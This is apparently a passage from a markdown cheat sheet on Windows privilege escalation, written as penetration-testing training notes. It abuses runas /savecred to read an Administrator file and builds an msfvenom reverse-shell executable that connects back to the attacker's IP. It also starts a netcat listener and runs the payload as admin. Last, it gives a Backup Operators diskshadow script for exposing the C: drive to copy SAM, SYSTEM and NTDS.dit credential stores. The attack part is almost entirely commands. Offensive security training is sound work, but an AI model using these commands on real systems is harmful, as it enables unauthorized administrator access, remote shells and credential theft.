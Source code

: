 ## <span style="color:lightgreen">Exploitation</span>
1. Reading root flag
```console
C:\Temp> C:\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred "C:\Windows\System32\cmd.exe /c TYPE c:\Users\Administrator\Desktop\root.txt > C:\Users\security\root1.txt"
```

2. getting a reverse shell
use masfvenom 
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=[tun0 IP] LPORT=53 -f exe -o program.exe
```
start the listener
```
nc -nlvp
```
runas exploit
```
runas /savecred /user:admin C:\Temp\program.exe
```
![image](https://github.com/AbdullahZuhair21/CRTP/assets/154827329/609e3011-2b5a-427f-92e3-15399306979b)


# <span style="color:lightblue">Backup Operators (Disk shadow + Robocopy)</span>

## <span style="color:lightgreen">Methodology</span>

If the user is a part of the Backup Operator group, the user has the ability to create system backups and could be used to obtain copies of sensitive system files that can be used to retrieve passwords such as the SAM and SYSTEM Registry hives and the NTDS.dit Active Directory database file.

## <span style="color:lightgreen">Detection</span>

1. The user should be a part of the Backup Operators group and should have  SeBackupPrivilege and SeRestorePrivilege Enabled

```console
C:\Temp> net user unsername-here
C:\Temp> whoami /all
```

## <span style="color:lightgreen">Exploitation</span>

### Kali VM
1. Create this script and transfer it to Windows VM

```powershell
set verbose onX
set metadata C:\Windows\Temp\meta.cabX
set context clientaccessibleX
set context persistentX
begin backupX
add volume C: alias cdriveX
createX
expose %cdrive% E:X
end backupX
```
